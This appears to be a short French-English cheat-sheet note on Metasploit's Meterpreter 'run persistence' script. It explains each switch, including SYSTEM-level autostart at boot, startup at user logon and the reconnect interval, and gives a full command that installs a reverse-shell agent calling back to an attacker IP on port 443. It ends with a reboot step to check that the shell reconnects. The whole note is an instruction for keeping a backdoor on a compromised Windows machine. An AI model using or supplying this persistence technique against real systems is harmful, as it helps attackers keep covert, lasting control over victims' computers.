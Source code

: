 run persistence : Permet d'avoir un shell persistent qui se reconnecte quand la cible rallume la machine.

- –A switch starts a matching handler to connect to the agent.
- With the -L switch we tell the system where to place the Meterpreter on the target system.
- The –P switch tells the system what payload to use (Windows/Meterpreter/reverse_tcp is the default, so we won’t use this switch).
- -S starts the agent on boot with system privileges.
- The -U switch starts the agent when the user (U) logs on.
- The -x switch starts the agent when the system boots.
- With the –i switch we can indicate the time interval between each connection attempt.
- The -p switch indicates the port, and finally…
- The –r switch indicates the IP address of our ( r ) system running Metasploit.

commande interréssante : run persistence –A –L c:\ -S -X  -i 10 –p 443 –r [192.168.1.113](http://192.168.1.113 "http://192.168.1.113")

Pour tester si ca marche : faire la commande reboot dans meterpreter, si c'est bon, le meterpreter shell va se reconnecter.